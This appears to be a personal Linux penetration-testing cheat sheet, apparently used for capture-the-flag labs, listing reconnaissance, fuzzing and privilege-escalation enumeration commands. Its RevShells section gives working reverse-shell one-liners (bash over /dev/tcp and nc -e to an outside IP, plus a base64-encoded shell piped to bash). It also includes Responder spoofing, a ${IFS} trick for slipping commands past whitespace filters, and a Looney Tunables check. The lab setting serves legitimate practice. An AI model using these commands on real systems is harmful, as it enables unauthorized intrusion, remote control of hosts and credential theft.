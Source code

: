 # Linux CheatSheet
## General

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container

${IFS} can be used in place of whitespace when no whitespace allowed

jd-gui used to decompile jar files

gitdump used to dump .git directories

## MySQL

```bash
mysql -u <username> -p 
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

## RevShells

```bash
bash -i >& /dev/tcp/10.10.14.205/8888 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.14.205/8888 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE=" | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#checks for loonytoonables vuln, if returns Segmentation fault (core dumped)

ps aux

find . -type f -name "*.txt"
#find all files with extension in current dir

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

cd /var/mail && cd /var/spool/mail
#check for mail

```

look in all interesting folders, .git, .config, /var/www, /, .local

check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
